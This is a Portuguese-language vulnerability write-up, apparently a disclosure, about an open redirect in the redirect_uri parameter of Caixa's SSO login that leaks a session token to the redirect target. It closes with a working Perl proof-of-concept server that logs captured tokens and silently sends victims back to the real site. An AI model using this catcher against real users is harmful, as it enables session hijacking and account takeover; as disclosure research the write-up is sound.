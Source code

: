 [http://acessoseguro.sso.caixa.gov.br/cidadao/auth?response_type=code&client_id=portal-inter&segmento=CIDADAO01&template=portal&redirect_uri=http://acessoseguro.sso.caixa.gov.br]()

O último parâmetro da URL apresenta uma potencial vulnerabilidade de Open Redirect: &redirect_uri=. O valor inserido nesse parâmetro indica para qual URL o usuário será redirecionado ao final da atividade em questão, que neste caso é o login.

Para validar essa possibilidade, o valor do parâmetro &redirect_uri= na URL original foi alterado para o endereço da página inicial do Google. Por fim, ao preencher as credenciais válidas e realizar o login, é obtido o seguinte resultado:

<iframe width="100%" height="523" src="https://www.youtube.com/embed/d6EXPMQPcZw" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture"></iframe>

-

Como demonstrado, a aplicação possui uma vulnerabilidade de Open Redirect. No entanto, há outro detalhe: durante o redirecionamento, um parâmetro adicional foi enviado, como pode ser observado na URL:

[https://google.com/?code=e629bd01-00cd-4b67-8f5d-f7fc50c2a9c7](https://google.com/?code=e629bd01-00cd-4b67-8f5d-f7fc50c2a9c7)

Após uma análise do parâmetro ?code= e da requisição original, foi possível validar que o valor desse parâmetro corresponde a um Token de Sessão[2].

Com essa conclusão, tornou-se evidente que essa vulnerabilidade possui uma alta criticidade, pois o usuário poderia ser vítima de um ataque, onde ocorre um redirecionamento para uma URL maliciosa na qual um atacante possui controle total e então realiza a captura do Token de Sessão. Ao fazer isso, o atacante obtém acesso à conta do usuário, violando a confidencialidade e a integridade de seus dados.

---

### Prova de conceito

Para comprovar a possibilidade do vazamento e captura do token, o seguinte código foi utilizado:

```perl
#!/usr/bin/env perl
# perl catcher.pl daemon -m production -l http://\*:8080

use 5.030;
use strict;
use warnings;
use Mojolicious::Lite -signatures;

get "/" => sub ($catcher) {
    $catcher -> res -> headers -> header("Access-Control-Allow-Origin" => "*");

    my $code = $catcher -> param("code");

    open (my $logs, ">>", "catcher.logs");
    print $logs "[+] - New Session Token -> '$code' has been catch.\n";
    close ($logs);

    return ($catcher -> render (
        text => "
            <script>window.location='https://acessoseguro.sso.caixa.gov.br/portal/login/?code=$code'</script>
        "
    ));

};

app -> start();
```
